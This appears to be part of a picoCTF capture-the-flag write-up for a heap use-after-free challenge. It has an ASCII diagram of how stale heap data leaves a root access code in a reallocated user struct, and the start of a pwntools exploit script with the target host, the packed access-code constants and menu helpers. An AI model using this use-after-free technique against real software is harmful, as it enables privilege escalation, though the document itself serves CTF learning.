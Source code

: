 ```
1. Allocate First user:

          struct user
+------------------------------------+                  username buffer
| char *username: pointer            |------->+----------------------------------+
+------------------------------------+        | aaaaaaaaROOT_ACCESS_CODEbbbbbbbb |
| char access_code: unknown leftover |        +----------------------------------+
+------------------------------------+
| char *files: unknown leftover      |
+------------------------------------+

2. Free first user

3. Allocate second user (Heap Manager provides "username buffer" as buffer for user struct):

struct user (previously: username buffer)
+------------------------------------+        new username buffer
| char *username: pointer            |------->+---+
+------------------------------------+        | A |
| char access_code: ROOT_ACCESS_CODE |        +---+
+------------------------------------+
| char *files: bbbbbbbb              |
+------------------------------------+

```

The script:

```python
# First, generate a pwntools template using:
# pwn template --host 2019shell1.picoctf.com --port 12286 auth

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)
# FORTIFY:  Enabled

#context.log_level = "DEBUG"
AC1 = 0x4343415f544f4f52
AC2 = 0x45444f435f535345


def select_menu(io, command):
    io.sendlineafter("]> ", command)

def login(io, name):
    log.info("Logging in as {} ({})".format(name, enhex(name)))
    select_menu(io, "login")
    io.sendlineafter("Please enter the length of your username", str(len(name)))
    io.sendlineafter("Please enter your username", name)

def logout(io):
    log.info("Logging out")
    select_menu(io, "logout")
    
def print_flag(io):
    log.info("Printing flag")
    select_menu(io, "print-flag")

```